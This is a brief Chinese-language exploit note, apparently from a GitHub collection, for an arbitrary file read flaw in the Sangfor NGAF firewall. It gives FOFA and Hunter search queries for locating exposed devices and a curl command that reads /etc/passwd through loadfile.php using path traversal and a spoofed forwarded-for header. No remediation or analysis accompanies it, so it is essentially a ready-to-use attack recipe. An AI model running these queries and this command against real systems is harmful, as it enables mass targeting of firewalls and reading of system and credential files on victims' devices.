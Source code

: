 ## 深信服下一代防火墙NGAF任意文件读取漏洞

## fofa:

"Redirect.php?url=/LogInOut.php" && port="85"

## hunter:
web.body="LogInOut.php?type=logout"

```
curl --insecure  https://<host>:85/svpn_html/loadfile.php?file=/etc/./passwd -H "y-forwarded-for: 127.0.0.1"

```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/W3ujp2P7OjARkXD5FOjonOrfcK6Xr6QOVaCrI21fu9F1DcBPekwcPFBf8Q8vCrI4Qmiaia2YaMExoogwic2TSnNKQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

